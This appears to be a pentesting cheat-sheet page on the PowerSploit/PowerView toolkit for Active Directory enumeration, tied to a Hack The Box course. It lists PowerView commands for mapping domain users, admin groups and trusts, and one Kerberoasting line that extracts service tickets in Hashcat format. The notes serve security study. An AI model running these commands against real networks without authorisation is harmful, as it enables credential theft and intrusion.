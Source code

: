 # PowerSploit

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

<div class="row row-cols-lg-2"><div>

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/) <small>(11.4k ⭐, 2017 🪦)</small> is the latest version of [PowerTools](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp) and [PowerUp](https://github.com/HarmJ0y/PowerUp) which are dead too since 2014/2015.
</div><div>

* [PowerView Module](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) or [SharpView](https://github.com/tevora-threat/SharpView) <small>(0.9k ⭐)</small>

```ps
PS> import-module .\PowerView.ps1
PS> Get-DomainPolicy
PS> Get-DomainUser -Identity username -Domain example.com
PS> Get-DomainGroupMember -Identity "Domain Admins" -Recurse
PS> Get-DomainTrustMapping
PS> Test-AdminAccess -ComputerName TARGET_HOST
PS> Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName
PS> Get-DomainUser cn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes # encryption scheme
PS> Get-DomainUser -Identity cn | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\xxx.csv -NoTypeInformation
```

```ps
PS> .\SharpView.exe Get-DomainUser -Identity username
```
</div></div>